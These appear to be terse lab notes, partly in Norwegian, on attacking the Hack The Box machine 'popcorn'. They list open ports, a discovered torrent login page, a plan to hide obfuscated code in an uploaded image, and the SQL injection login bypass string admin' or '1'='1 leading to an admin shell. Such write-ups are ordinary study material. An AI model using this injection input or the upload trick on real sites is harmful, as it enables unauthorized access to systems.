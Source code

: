 # popcorn 10.10.10.6

linux

22/tcp open  ssh

80/tcp open  http

dirb

[http://10.10.10.6/torrent/login.php](http://10.10.10.6/torrent/login.php)

laste opp en torrent. prøve å finne et sted å laste opp bilde, obfuscate kode i bildet og bam

`admin' or '1'='1`

`admin' or '1'='1`

admin shell woo

